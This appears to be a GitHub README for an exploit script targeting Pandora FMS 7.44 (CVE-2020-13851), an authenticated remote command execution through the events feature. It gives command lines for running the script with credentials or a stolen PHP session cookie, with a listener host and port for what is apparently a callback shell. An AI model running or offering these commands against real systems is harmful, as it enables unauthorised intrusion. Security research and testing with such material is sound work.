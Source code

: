 # Pandora FMS 7.44 CVE-2020-13851

Pandora FMS 7.44 CVE-2020-13851 RCE allows an authenticated user to achieve remote command execution via the events feature. Can be done with credentials or a PHP session cookie.

## Getting Started

### Executing program

* Using credentials
```
python3 pandorafms_7.44.py -t http://pwnedpandora.com/ -u username -p password -lhost 127.0.0.1 -lport 1337
```
* Using PHP session cookie
```
python3 pandorafms_7.44.py -t http://pwnedpandora.com/ -c PHPSESSID -lhost 127.0.0.1 -lport 1337
```

## Help

For Help Menu
```
python3 pandorafms_7.44.py -h
```

## Acknowledgments

* [Core Security](https://www.coresecurity.com/core-labs/advisories/pandora-fms-community-multiple-vulnerabilities)

## Disclaimer
All the code provided on this repository is for educational/research purposes only. Any actions and/or activities related to the material contained within this repository is solely your responsibility. The misuse of the code in this repository can result in criminal charges brought against the persons in question. Author will not be held responsible in the event any criminal charges be brought against any individuals misusing the code in this repository to break the law.